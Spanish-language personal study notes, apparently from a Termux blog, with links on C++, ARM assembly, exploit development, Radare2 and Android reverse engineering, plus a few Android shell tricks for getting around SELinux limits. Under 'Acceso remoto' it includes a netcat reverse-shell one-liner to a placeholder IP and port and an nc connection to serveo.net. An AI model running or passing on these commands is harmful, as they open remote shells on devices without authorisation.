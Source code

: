 # Mis demonis en un solo lugar 


> [!WARNING]
> 


> [!NOTE]
> Mucho del mis imsobnios  vine de  la comunidad de ``@ivam3`` y sus subcriptores 

# C++

- [AprenderC++](https://www.learncpp.com)
- [GestionDeMemoria]()

**Modulos y funciones**
 
 - [...](https://en.cppreference.com)

> [!NOTE]
> La mayoría de los dispositivos Android funcionan con ARM 


# Assembly 

**Comnados**
 - [as](https://sourceware.org/binutils/docs/as/index.html#Top)  : De lenguage emsablador a codigo maquina   
 - [ld](https://sourceware.org/binutils/docs/ld/)  : 


- [Intoducion al los comceptos basicos de  ensamblaje arm](https://azeria-labs.com/writing-arm-assembly-part-1/) 


# ROP 


# Desarollo de  exploit `ARM` 

 [1](https://fuzzysecurity.com/tutorials/expDev/1.html) 
 [2](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/) 

# [Radare2](https://book.rada.re/config/evars.html)

- **CLI**
    - `-d ` : 
- **Inter**
    - "iE"  : 
    - `bdi` : Punto de intrucsion
    - `pdda` : Comando para ver el ensamblado y el código fuente descompilado uno al lado del otro.
    - *Debug commands* 
        - `d `

**Plugings**

- `r2dec` : Descompilador 

# Android Ingenieria Inversa 

**Documentación de Oracle JNI**
- Espesificacion de JNI
- 


# Analisis binario 

**Comceptos basico**

- **Pila**

- **Registro**

- **Buffer** 
    - [Como funciona la memoria](http://progra.usm.cl/apunte/c/memoria.html) 




A partir de android 11 `selinux` implementó varias restricciones, la buena noticia es que muchas de ellas se pueden 'bypassear' sin necesidad de ser root ni haciendo uso de adb xD. El mismo restringe las llamadas al sistema



**Listar paquetes saltando protexion ** 

```sh
<<(pm list packages -3 --user 0 2>&1 < /dev/null )
``` 
```
PATH=$PREFIX/bin && /system/bin/pm list packages --user 0
```


- Desde un usuario con uid2000 se  puede torgar permiso  
```
am start --user 0 -a android.settings.action.MANAGE_OVERLAY_PERMISSION -d "package:com.termux.x11"
```

# Investigar 

- Si se logras ejecutar los binarios de ``/vendor/bin`` siendo usuario shell es posible escalar privilegios hasta el usuario ``system``. Mas informacion [aqui](https://t.me/Ivam3by_Cinderella/13/9867) 

# Pendientes 
---
*Aprender*
[](https://rtx.meta.security/exploitation/2024/06/03/Android-Zygote-injection.html)
--- 

**Rever shell**

[Ejemplo](https://t.me/Ivam3by_Cinderella/13/9377)

--- 

**Acseso remoto**

```
rlwrap /system/bin/toybox nc serveo.net 65000
```

```
tali -n0 -f $TMPDIR/xD|/bin/sh -i 2>&1| nc <IP> <port> 1>$TMPDIR/xD  
```

---

**Hacer funcional `qemu-i386`  


```sh 
⊨ qemu-i386 ~/ch1.bin                                    ~/p/v/_posts
qemu-i386: Could not open '/lib/ld-linux.so.2': No such file or directory
```

**Referencia**

https://tldp.org/HOWTO/Glibc2-HOWTO-5.html

---


**Telegram**
https://t.me/Ivam3by_Cinderella/19953

# Foros que me llamaron la atencion 
[bypassing-root-detection](https://medium.com/@aimardcr/bypassing-root-detection-the-universal-way-2625712172e5) 
[BypassSelinux](https://klecko.github.io/posts/selinux-bypasses/) 
[](https://nelenkov.blogspot.com/2015/06/password-storage-in-android-m.html?m=1)
*Binary*
[Buscar numeros magicos](https://www.garykessler.net/library/file_sigs.html)

{% if page.comments %}
<div id="disqus_thread"></div>
<script>
    (function() { // DON'T EDIT BELOW THIS LINE
    var d = document, s = d.createElement('script');
    s.src = 'https://blok-termux.disqus.com/embed.js';
    s.setAttribute('data-timestamp', +new Date());
    (d.head || d.body).appendChild(s);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
{% endif %}


